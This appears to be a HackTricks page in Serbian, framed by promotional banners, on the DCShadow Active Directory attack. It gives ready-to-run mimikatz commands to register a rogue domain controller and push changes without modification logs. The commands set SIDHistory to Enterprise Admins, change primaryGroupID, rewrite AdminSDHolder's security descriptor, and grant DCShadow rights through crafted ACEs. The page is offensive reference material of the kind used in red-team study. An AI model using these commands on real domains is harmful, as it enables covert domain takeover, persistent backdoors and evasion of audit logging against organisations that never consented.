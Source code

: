 # DCShadow

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## DCShadow

Registruje **novi Domain Controller** u AD i koristi ga da **ubaci atribute** (SIDHistory, SPN...) na određene objekte **bez** ostavljanja bilo kakvih **logova** u vezi sa **modifikacijama**. Potrebne su vam DA privilegije i morate biti unutar **root domena**.\
Imajte na umu da će se pojaviti prilično ružni logovi ako koristite netačne podatke.

Da biste izvršili napad, potrebna su vam 2 instancije mimikatz-a. Jedna od njih će pokrenuti RPC servere sa SYSTEM privilegijama (ovde morate navesti promene koje želite da izvršite), a druga instanca će se koristiti za ubacivanje vrednosti:

{% code title="mimikatz1 (RPC serveri)" %}
```
```
{% endcode %}

```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```

{% code title="mimikatz2 (push) - Potrebno je DA ili slično" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

Primetite da **`elevate::token`** neće raditi u sesiji `mimikatz1` jer to podiže privilegije niti, već nam je potrebno podići **privilegije procesa**.\
Možete takođe odabrati i "LDAP" objekat: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

Možete izvršiti promene sa DA ili sa korisnikom sa minimalnim ovlašćenjima:

* U **domenskom objektu**:
* _DS-Install-Replica_ (Dodaj/Ukloni repliku u domenu)
* _DS-Replication-Manage-Topology_ (Upravljanje topologijom replikacije)
* _DS-Replication-Synchronize_ (Sinhronizacija replikacije)
* **Sites objekat** (i njegova deca) u **Configuration kontejneru**:
* _CreateChild i DeleteChild_
* Objekat **računara koji je registrovan kao DC**:
* _WriteProperty_ (Ne Write)
* **Ciljni objekat**:
* _WriteProperty_ (Ne Write)

Možete koristiti [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) da biste dali ova ovlašćenja neprivilegovanom korisniku (primetite da će ovo ostaviti neke logove). Ovo je mnogo restriktivnije od DA privilegija.\
Na primer: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose` Ovo znači da korisničko ime _**student1**_ kada je prijavljeno na mašini _**mcorp-student1**_ ima DCShadow ovlašćenja nad objektom _**root1user**_.

### Korišćenje DCShadow za kreiranje zadnjih vrata

{% code title="Postavljanje SIDHistory za korisnika na Enterprise Admins" %}
```
```
{% endcode %}

```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```

{% code title="Promena PrimaryGroupID (postavljanje korisnika kao člana Domain Administratora)" %}
```
```
{% endcode %}

```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```

{% code title="Izmenite ntSecurityDescriptor AdminSDHolder-a (dodelite punu kontrolu korisniku)" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

### Shadowception - Dajte DCShadow dozvole koristeći DCShadow (bez modifikovanih logova dozvola)

Potrebno je dodati sledeće ACE-ove sa SID-om našeg korisnika na kraju:

* Na objekt domena:
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* Na objektu napadačkog računara: `(A;;WP;;;UserSID)`
* Na ciljnom korisničkom objektu: `(A;;WP;;;UserSID)`
* Na objektu Lokacije u kontejneru Konfiguracija: `(A;CI;CCDC;;;UserSID)`

Da biste dobili trenutni ACE objekta: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=loca l")).psbase.ObjectSecurity.sddl`

Primetite da u ovom slučaju morate napraviti **nekoliko promena,** a ne samo jednu. Dakle, u **mimikatz1 sesiji** (RPC server) koristite parametar **`/stack` sa svakom promenom** koju želite da napravite. Na taj način, samo ćete jednom morati da izvršite **`/push`** da biste izvršili sve zaglavljene promene na lažnom serveru.

[**Više informacija o DCShadow na ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Pogledajte [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

